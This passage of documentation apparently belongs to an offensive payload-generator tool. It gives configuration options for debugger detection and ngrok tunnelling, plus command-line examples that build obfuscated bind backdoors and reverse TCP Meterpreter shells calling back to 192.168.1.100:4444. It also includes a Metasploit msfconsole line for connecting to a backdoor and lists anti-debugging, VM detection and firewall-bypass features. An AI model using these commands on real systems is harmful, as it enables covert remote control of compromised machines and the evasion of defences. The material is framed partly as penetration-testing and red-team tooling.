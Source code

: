 ```yaml
  debugger_detection: true
  sleep_before_execution: 0

ngrok:
  auto_setup: false
  region: "us"
  auth_token: "your_token_here"
```

### Using Configuration

```bash
python3 cli.py reverse -h 192.168.1.100 -p 4444 --config custom.yml
```

## Payload Types

### 1. Bind Backdoor

**Description**: Opens a port on the target machine and waits for connections.

**Use Cases**:
- Direct access to compromised systems
- Situations where reverse connections are blocked
- Testing internal network security

**Example**:
```bash
python3 cli.py bind -p 4444 --obfuscate
```

**Connection**:
```bash
# Using Metasploit
msfconsole -q -x 'use python/meterpreter/bind_tcp; set RHOST target_ip; set RPORT 4444; exploit'
```

### 2. Reverse TCP Meterpreter

**Description**: Connects back to your machine with encrypted communication.

**Use Cases**:
- Bypassing firewalls
- Red team exercises
- Penetration testing

**Features**:
- SSL/TLS encryption
- Anti-debugging techniques
- VM detection
- Automatic reconnection

**Example**:
```bash
python3 cli.py reverse -h 192.168.1.100 -p 4444 --obfuscate --compile
```
